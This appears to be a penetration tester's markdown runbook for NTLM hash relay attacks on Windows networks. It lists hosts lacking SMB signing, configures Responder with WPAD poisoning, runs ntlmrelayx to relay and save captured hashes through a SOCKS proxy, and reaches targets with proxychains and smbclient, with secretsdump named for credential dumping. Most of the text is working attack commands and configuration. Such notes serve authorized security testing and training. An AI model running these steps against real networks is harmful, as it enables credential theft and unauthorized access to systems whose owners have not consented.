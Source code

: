 # How to Hash Relay

## Prerequisites

- Local network access
- SMB signing disabled on target
- Impacket (specifically "ntlmrelayx")
- Responder (with SMB and HTTP disabled)
- Proxychains4 (with localhost proxy configured)

## References

- https://infosecwriteups.com/abusing-ntlm-relay-and-pass-the-hash-for-admin-d24d0f12bea0  
- https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/  
- https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/

## Step-by-Step

1. Find hosts where SMB signing is not enabled. Relay cannot occur on hsots with SMB signing. Create an input file of these hosts.
   
   - CrackMapExec
   - Nessus (filter by "SMB Signing not required")

2. Configure Responder. Modify `/etc/responder/Responder.conf` and set the following:
   
   - `SMB = Off`
   - `HTTP = Off`
   
   ![image](https://user-images.githubusercontent.com/33240393/166562653-bda3ba8c-de61-41ab-acb6-2fd16241987b.png)

3. Configure Proxychains4. Modify `/etc/proxychains4.conf` and set the last line as the following:
   
   - `socks4 127.0.0.1 1080`
   
   ![image](https://user-images.githubusercontent.com/33240393/166562934-65c687a4-3a41-426c-b3d6-955a80d4f4bb.png)

4. Run `ntlmrelayx.py` in a new terminal. Consider the following syntax:
   
   - `ntlmrelayx.py -socks -smb2support -tf inputfile.txt -of ~/ntlmrelay.out`
   - `-socks` = launch a SOCKS proxy for the connection relayed
   - `-smb2support` = adds support for SMBv2 if SMBv1 is disabled
   - `-tf` = target file
   - `-of` = output file, use this to save hashes to disk in addition to relaying!
   
   ![image](https://user-images.githubusercontent.com/33240393/166563092-5728398d-dd9d-4e43-a42d-241eeb545abc.png)

5. Run Responder concurrently in a new terminal. Consider running with WPAD for most effectiveness:
   
   - `sudo responder -I eth0 -w`
   - `-I` = interface, usually eth0
   - `-w` = WPAD support

6. Wait for Responder to receive hashes.

7. In the `ntlmrelayx` terminal, type "socks" to see active connections.
   
   ![image](https://user-images.githubusercontent.com/33240393/166563146-4d078a1c-ea28-4944-b21b-aa70ca0980c9.png)

8. When a new connection is established, access it in a new terminal by using `proxychains4` to proxy through your SOCKS proxy that `ntlmrelayx` has created for you. Consider the following syntax:
   
   - `proxychains4 /opt/impacket/examples/smbclient.py domain/username@target-ip`
   - (When prompted for a password, just hit enter - authentication is already established for you by the hash relay)
   - Other tools can be used through proxychains such as `smbexec.py` and `secretsdump.py`, but these require admin access.
   
   ![image](https://user-images.githubusercontent.com/33240393/166563176-87a5ae6f-65bd-455c-9be8-c20e49f18153.png)
   
   ![image](https://user-images.githubusercontent.com/33240393/166563201-176dd474-0b16-48c3-9782-061fe7b7c7dd.png)

